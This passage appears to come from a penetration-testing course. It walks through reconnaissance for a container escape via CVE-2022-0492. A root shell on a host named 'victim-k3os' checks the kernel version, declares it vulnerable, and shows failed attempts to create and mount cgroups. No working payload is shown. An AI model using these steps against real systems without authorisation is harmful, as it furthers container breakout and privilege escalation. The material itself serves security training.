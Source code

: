 Next, let's gather information about the kernel version. We'll use the **uname** command with the **--kernel-release** argument.

```
root@victim-k3os:~# uname --kernel-release
5.4.0-37-generic
```

> Listing 66 - Obtaining Kernel Version

As mentioned earlier, Linux 5.4.0-105 is where the fix for CVE-2022-0492 was implemented. This means that the target is vulnerable to the exploit.

While we found that the container mounts cgroup file systems as read-only, let's try to create a new cgroup anyway. This will help us understand the error messages we get at various stages of the exploit. We'll use the devices cgroup controller and call our new cgroup **x**. We'll attempt to create the cgroup by creating a directory in **/sys/fs/cgroup/devices/**.

```
root@victim-k3os:~# mkdir /sys/fs/cgroup/devices/x
mkdir: cannot create directory ‘/sys/fs/cgroup/devices/x’: Read-only file system
```

> Listing 67 - Atempting to Add New Cgroup

As expected, we received an error. The error specified that the system was read-only. Next, let's try to mount a cgroup file system to a directory that we control.

```
root@victim-k3os:~# mkdir /tmp/cgroupfs

root@victim-k3os:~# mount -t cgroup -o devices cgroup /tmp/cgroupfs
mount: /tmp/cgroupfs: permission denied.
```

> Listing 68 - Attempting to Mount a Cgroup Filesystem

